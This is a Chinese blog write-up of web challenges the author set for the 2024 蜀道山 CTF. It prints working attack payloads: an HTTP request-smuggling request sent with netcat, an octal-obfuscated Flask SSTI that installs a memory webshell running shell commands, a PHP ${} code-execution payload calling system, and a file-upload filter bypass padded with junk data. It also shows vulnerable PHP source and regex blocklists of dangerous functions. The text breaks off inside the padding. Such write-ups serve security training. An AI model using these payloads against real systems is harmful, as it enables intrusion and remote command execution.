






+++
title = "蜀道山2024"
slug = "shudaoshan-2024"
description = "第一次出题"
date = "2024-11-18T20:17:47"
lastmod = "2024-11-18T20:17:47"
image = ""
license = ""
categories = ["赛题"]
tags = ["出题", "flask", "php"]
+++

# 0x01 前言

收到联办消息是暑假的时候，也是我第一次被外面所认可？谢谢P爹给我机会

# 0x02 question

## **海关警察训练平台**

> 这是一个海关警察训练平台，你的任务是判断所给图片能否进入境内，但是全部判断正确的成功页面好像丢失了？？flag在内网的http://infernityhost/flag.html

进来之后我发现是十张图片，这里的话直接查看源代码拿到路由



进来之后发现是一个404并且nginx/1.17.6，这个是有一个http劫持漏洞的

```
https://www.cnblogs.com/null1433/p/12778026.html
```

 写个类似的payload就可以了

```http
GET /error HTTP/1.1
Host: gamebox.yunyansec.com:13004
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Cookie: Hm_lvt_f6095793646f2ba4a15ac9ee2cd1af7a=1728906472
Connection: keep-alive

GET /flag.html HTTP/1.1
Host: infernityhost
Cache-Control: max-age=0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Connection: close

```

终端也可以

```shell
printf "GET /error HTTP/1.1\r\nHost: gamebox.yunyansec.com:27491\r\nCache-Control: max-age=0\r\nUpgrade-Insecure-Requests: 1\r\nUser-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.0.0 Safari/537.36\r\nAccept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7\r\nAccept-Encoding: gzip, deflate\r\nAccept-Language: zh-CN,zh;q=0.9,en;q=0.8\r\nCookie: Hm_lvt_f6095793646f2ba4a15ac9ee2cd1af7a=1728906472\r\nConnection: keep-alive\r\n\r\nGET /flag.html HTTP/1.1\r\nHost: infernityhost\r\nCache-Control: max-age=0\r\nUser-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.0.0 Safari/537.36\r\nAccept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7\r\nAccept-Encoding: gzip, deflate\r\nAccept-Language: zh-CN,zh;q=0.9,en;q=0.8\r\nConnection: close\r\n\r\n" | nc gamebox.yunyansec.com 27491

```

## **my_site**

题目环境提示是使用python进行的开发，这里我们先进去注册看看什么情况

随便注册登录一个账号之后发现可以进行`message`


发现没啥用



找一下`flag`页面和`cookie`，好像是没啥用

加解密界面进行一个ROT13编码，嗯，估计这里有漏洞了，这里直接尝试SSTI，发现是不需要大括号的，并且无回显



OK那么我们可以打入内存马，不过经过测试发现有部分过滤，我们使用八进制成功绕过

```
url_for["\137\137\147\154\157\142\141\154\163\137\137"]["\137\137\142\165\151\154\164\151\156\163\137\137"]['eval']("app.after_request_funcs.setdefault(None, []).append(lambda resp: CmdResp if request.args.get('cmd') and exec(\"global CmdResp;CmdResp=__import__('flask').make_response(__import__('os').popen(request.args.get('cmd')).read())\")==None else resp)", {'request':url_for["\137\137\147\154\157\142\141\154\163\137\137"]['request'],'app':url_for["\137\137\147\154\157\142\141\154\163\137\137"]['current_app']})

hey_sbe["\137\137\147\154\157\142\141\154\163\137\137"]["\137\137\142\165\151\154\164\151\156\163\137\137"]['riny']("ncc.nsgre_erdhrfg_shapf.frgqrsnhyg(Abar, []).nccraq(ynzoqn erfc: PzqErfc vs erdhrfg.netf.trg('pzq') naq rkrp(\"tybony PzqErfc;PzqErfc=__vzcbeg__('synfx').znxr_erfcbafr(__vzcbeg__('bf').cbcra(erdhrfg.netf.trg('pzq')).ernq())\")==Abar ryfr erfc)", {'erdhrfg':hey_sbe["\137\137\147\154\157\142\141\154\163\137\137"]['erdhrfg'],'ncc':hey_sbe["\137\137\147\154\157\142\141\154\163\137\137"]['pheerag_ncc']})
```

成功打入内存马

```
http://6bcc650d.clsadp.com/rot13_result/decrypt/?cmd=ls
```

## **恶意代码检测器**

一看这个名字进来就是要绕过了，先扫个后台吧，发现有源码，简单的看了一下发现是框架，我们先看版本



网上搜没有搜到

```php
<?php
namespace app\controller;

use app\BaseController;

class Index extends BaseController
{
    public function index()
    {
        $code = preg_replace("/[\";'%\\\\]/", '', $_POST['code']);
        if(preg_match('/openlog|syslog|readlink|mail|symlink|popen|passthru|scandir|show_source|assert|fwrite|curl|php|system|eval|cookie|assert|new|session|str|source|passthru|exec|request|require|include|link|base|exec|reverse|open|popen|getallheaders|next|prev|f|conv|ch|hex|end|ord|post|get|array_reverse|\~|\`|\#|\%|\^|\&|\*|\-|\+|\[|\]|\_|\<|\>|\/|\?|\\\\/is', $code)) {

            $attack_log_file = '/tmp/attack.log';

            if(file_exists($attack_log_file)) {
                file_put_contents($attack_log_file, '$attack_word=\''.$code.'\';'."\r\n",FILE_APPEND);
                require_once('/tmp/attack.log');
            } else {
                file_put_contents($attack_log_file, '<'.'?'.'php'."\r\n");
            }
            if(isset($attack_word)){
                echo '检测到危险代码: '.$attack_word.'！！！';
            } else{
            	  echo '欢迎使用gxngxngxn的恶意代码检测器！！！';
            }
        }else{
            $safe_log_file = '/tmp/safe.log';
            if(file_exists($safe_log_file)) {
                file_put_contents($safe_log_file, '$safe_word="'.$code.'";'."\r\n",FILE_APPEND);
                require_once('/tmp/safe.log');
            } else {
                file_put_contents($safe_log_file, '<'.'?'.'php'."\r\n");
            }
            if(isset($safe_word)){
                echo '未检测到危险代码，'.$safe_word.'，非常安全';
            } else{
            	  echo '欢迎使用gxngxngxn的恶意代码检测器！！！';
            }
        }
    }
}
```

利用`require_once`执行代码，这里的话能绕过就行，有个特性就是利用`{}`进行RCE

```http
POST /public/index.php HTTP/1.1
Host: 1e1feb97.clsadp.com
Content-Length: 45
Pragma: no-cache
Cache-Control: no-cache
Origin: http://1e1feb97.clsadp.com
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://1e1feb97.clsadp.com/public/index.php
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Connection: close

code=${input(0)(input(1))}&0=system&1=cat+/f*
```

## **奶龙牌WAF**

```php
<?php
if ($_SERVER['REQUEST_METHOD'] === 'POST' && isset($_FILES['upload_file'])) {
    $file = $_FILES['upload_file'];

    if ($file['error'] === UPLOAD_ERR_OK) {
        $name = isset($_GET['name']) ? $_GET['name'] : basename($file['name']);
        $fileExtension = strtolower(pathinfo($name, PATHINFO_EXTENSION));

        if (strpos($fileExtension, 'ph') !== false || strpos($fileExtension, 'hta') !== false) {
            die("不允许上传此类文件！");
        }


        if ($file['size'] > 2 * 1024 * 1024) {
            die("文件大小超过限制！");
        }

        $file_content = file_get_contents($file['tmp_name'], false, null, 0, 5000);

        $dangerous_patterns = [
            '/<\?php/i',
            '/<\?=/',
            '/<\?xml/',
            '/\b(eval|base64_decode|exec|shell_exec|system|passthru|proc_open|popen|php:\/\/filter|php_value|auto_append_file|auto_prepend_file|include_path|AddType)\b/i',
            '/\b(select|insert|update|delete|drop|union|from|where|having|like|into|table|set|values)\b/i',
            '/--\s/',
            '/\/\*\s.*\*\//',
            '/#/',
            '/<script\b.*?>.*?<\/script>/is',
            '/javascript:/i',
            '/on\w+\s*=\s*["\'].*["\']/i',
            '/[\<\>\'\"\\\`\;\=]/',
            '/%[0-9a-fA-F]{2}/',
            '/&#[0-9]{1,5};/',
            '/&#x[0-9a-fA-F]+;/',
            '/system\(/i',
            '/exec\(/i',
            '/passthru\(/i',
            '/shell_exec\(/i',
            '/file_get_contents\(/i',
            '/fopen\(/i',
            '/file_put_contents\(/i',
            '/%u[0-9A-F]{4}/i',
            '/[^\x00-\x7F]/',
            // 检测路径穿越
            '/\.\.\//',
        ];


        foreach ($dangerous_patterns as $pattern) {
            if (preg_match($pattern, $file_content)) {
                die("内容包含危险字符，上传被奶龙拦截！");
            }
        }

        $upload_dir = 'uploads/';
        if (!file_exists($upload_dir)) {
            mkdir($upload_dir, 0777, true);
        }

        $new_file_name = $upload_dir . $name;
        print($_FILES['upload_file']);
        if (move_uploaded_file($_FILES['upload_file']['tmp_name'], $new_file_name)) {
            echo "文件上传成功！";
        } else {
            echo "文件保存失败！";
        }
    } else {
        echo "文件上传失败，错误代码：" . $file['error'];
    }
} else {
    ?>
```

这么大个好东西



这里这个函数

> 当move_uploaded_file函数参数可控时，可以尝试/.绕过，因为该函数会忽略掉文件末尾的/.，所以可以构造save_path=1.php/.,这样file_ext值就为空，就能绕过黑名单，而move_uploaded_file函数忽略文件末尾的/.可以实现保存文件为.php
>

那么现在就是要绕过waf了，可以使用脏数据绕过

```http
POST /?name=a.php/. HTTP/1.1
Host: b67d75ac.clsadp.com
Content-Length: 35232
Cache-Control: max-age=0
Origin: http://b67d75ac.clsadp.com
Content-Type: multipart/form-data; boundary=----WebKitFormBoundarypi7tV2kg59hDCezH
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://b67d75ac.clsadp.com/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Connection: close

------WebKitFormBoundarypi7tV2kg59hDCezH
Content-Disposition: form-data; name="upload_file"; filename="a"
Content-Type: application/octet-stream

11111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111